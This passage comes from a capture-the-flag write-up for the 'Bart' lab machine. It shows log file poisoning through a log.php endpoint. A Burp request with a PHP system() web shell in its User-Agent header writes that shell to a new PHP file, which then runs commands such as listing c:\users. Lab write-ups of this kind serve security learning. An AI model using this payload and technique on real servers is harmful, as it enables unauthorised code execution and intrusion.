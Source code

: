 When we click on the link a GET is generated for this address:

```aaa
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey
```

We can open this address from the browser and all we see is a "1". The number becomes 0 if the username parameter is set to a user that doesn't exist or if the filename parameter points to a file that cannot be open for writing, however this is not the content of the log.txt file itself, we can find the actual file inside the /log/ folder, the same one where log.php is, and it appears to have logged our user agent:

![img](/images/writeup-bart/21.png)

---

## Exploitation: log file poisoning

So from what we have gathered so far we can tell that the way log.php works is, you specify a filename where the logs will be written to, an existing user, and the page will write the current date, the selected user, and the user agent on the file. This means we can manipulate the requests to inject whatever we like in the user agent string, potentially a PHP web shell which can be written in a brand new PHP file. I'm going to change my user agent amd filename parameter with Burp to inject a simple PHP cmd shell on a new webpage:

```http
GET /log/log.php?filename=baudy.php&username=harvey HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php system($_REQUEST['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=4j2gp67fs46vgvd9mr9ibgoc47
Upgrade-Insecure-Requests: 1
```

In this first request we tell the log.php file to write the user agent in a new file called baudy.php (it'll be created in the same folder of the page, so /log/) and our user agent contains PHP code to execute an operating system command taken from the "cmd" parameter that can pass from the URL. The following request always from Burp connects to our shell and executes a whoami command:

![img](/images/writeup-bart/22.png)

With this simple and very basic shell we can already execute a bunch of useful instructions, to make them work with special characters from Burp I first URL-encode them with Burps's own Decoder tab. For example "dir c:\users" becomes:

```aaa
cmd=%64%69%72%20%63%3a%5c%75%73%65%72%73
```
And the output of the command is:

```aaa
[2019-08-11 21:22:55] - harvey -  Volume in drive C has no label.
Volume Serial Number is F84E-9CF7

Directory of c:\users

04/10/2017  09:13    <DIR>          .
04/10/2017  09:13    <DIR>          ..
04/02/2018  22:58    <DIR>          Administrator
02/10/2017  13:08    <DIR>          DefaultAppPool
04/10/2017  08:40    <DIR>          forum.bart.local
21/02/2018  22:39    <DIR>          h.potter
24/09/2017  21:55    <DIR>          Harvey Potter
04/02/2018  22:56    <DIR>          internal.bart.local
```